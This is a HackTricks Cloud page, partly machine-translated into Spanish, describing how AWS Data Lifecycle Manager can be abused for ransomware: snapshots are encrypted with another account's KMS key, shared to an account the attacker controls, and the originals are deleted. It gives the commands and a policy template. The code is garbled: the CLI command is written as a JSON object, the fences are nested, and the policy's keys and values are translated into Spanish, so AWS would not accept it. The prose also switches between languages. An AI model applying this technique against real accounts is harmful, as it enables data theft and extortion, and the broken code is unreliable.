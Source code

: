 # AWS - Administrador del Ciclo de Vida de Datos

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipo Rojo de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén [**artículos oficiales de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Administrador del Ciclo de Vida de Datos (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

Un ataque de ransomware puede ejecutarse cifrando tantos volúmenes EBS como sea posible y luego borrando las instancias EC2 actuales, los volúmenes EBS y las instantáneas. Para automatizar esta actividad maliciosa, se puede emplear Amazon DLM, cifrando las instantáneas con una clave KMS de otra cuenta de AWS y transfiriendo las instantáneas cifradas a una cuenta diferente. Alternativamente, podrían transferir instantáneas sin cifrar a una cuenta que gestionan y luego cifrarlas allí. Aunque no es directo cifrar volúmenes EBS o instantáneas existentes directamente, es posible hacerlo creando un nuevo volumen o instantánea.

En primer lugar, se utilizará un comando para recopilar información sobre los volúmenes, como el ID de la instancia, el ID del volumen, el estado de cifrado, el estado de la conexión y el tipo de volumen.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```json
{
  "aws dlm create-lifecycle-policy": "aws dlm create-lifecycle-policy",
  "--description": "My first policy",
  "--state": "ENABLED",
  "--execution-role-arn": "arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole",
  "--policy-details": "file://policyDetails.json"
}
```
```

A template for the policy document can be seen here:
```bash
```json
{
"TipoPolítica": "ADMINISTRACIÓN_DE_SNAPSHOTS_EBS",
"TiposDeRecursos": [
"VOLUMEN"
],
"EtiquetasObjetivo": [
{
"Llave": "ClaveEjemplo",
"Valor": "ValorEjemplo"
}
],
"Programaciones": [
{
"Nombre": "InstantáneasDiarias",
"CopiarEtiquetas": true,
"EtiquetasAAgregar": [
{
"Llave": "CreadorInstantánea",
"Valor": "DLM"
}
],
"EtiquetasVariables": [
{
"Llave": "CentroDeCostos",
"Valor": "Finanzas"
}
],
"ReglaCreación": {
"Intervalo": 24,
"UnidadIntervalo": "HORAS",
"Tiempos": [
"03:00"
]
},
"ReglaRetención": {
"Cantidad": 14
},
"ReglaRestauraciónRápida": {
"Cantidad": 2,
"Intervalo": 12,
"UnidadIntervalo": "HORAS"
},
"ReglasCopiaInterregional": [
{
"RegiónObjetivo": "us-west-2",
"Encriptado": true,
"ArnCmk": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopiarEtiquetas": true,
"ReglaRetención": {
"Intervalo": 1,
"UnidadIntervalo": "DÍAS"
}
}
],
"ReglasCompartir": [
{
"CuentasObjetivo": [
"123456789012"
],
"IntervaloNoCompartir": 30,
"UnidadIntervaloNoCompartir": "DÍAS"
}
]
}
],
"Parámetros": {
"ExcluirVolumenArranque": false
}
}
```
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
